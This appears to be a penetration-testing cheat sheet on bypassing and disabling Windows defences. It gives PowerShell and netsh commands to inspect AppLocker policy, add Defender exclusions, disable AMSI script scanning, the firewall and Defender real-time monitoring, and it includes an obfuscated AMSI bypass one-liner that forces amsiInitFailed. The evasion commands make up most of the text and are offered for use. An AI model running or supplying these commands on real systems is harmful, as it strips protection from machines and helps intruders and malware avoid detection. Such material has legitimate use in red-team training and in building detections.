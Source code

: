 ## Bypass and Disable
### AppLocker Bypass  
Analyse  
```
$ExecutionContext.SessionState.LanguageMode
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

### Exclude folder
```
powershell -ep by-pass
Set-MpPreference -ExclusionPath C:\Tools
Get-MpPreference | Select-Object -Property ExclusionPath -ExpandProperty ExclusionPath
```
### AMSI 
(AntiMalwareScan Interface) gives registered antivirus access to the contents of a script prior to execution, dependent on signature-based detection by the active antivirus.  
* Detection of malicious scripts in:  
Memory;  
Disk;  
Ofuscated;  
Enabled by default in Windows 10 and supported by Windows Defender.  
* AMSI Bypass  
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
https://amsi.fail/   
* Disable AMSI  
```
Set-MpPreference -DisableScriptScanning 1
```

### Disable Firewall
```
netsh firewall set opmode disable   
netsh Advfirewall set allprofiles state off 
```

### Disable Windows Defender
```
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose; Get-MpComputerStatus  
Set-MpPreference -DisableIOAVProtection $true 
```

### PowerShell Bypass
* Types of Bypass:  
Downgrade to version 2;  
Unloading, disabling or unsubscribing;  
Obfuscation;  
Trust abuse (Using trusted executables and code injection in trusted scripts);  
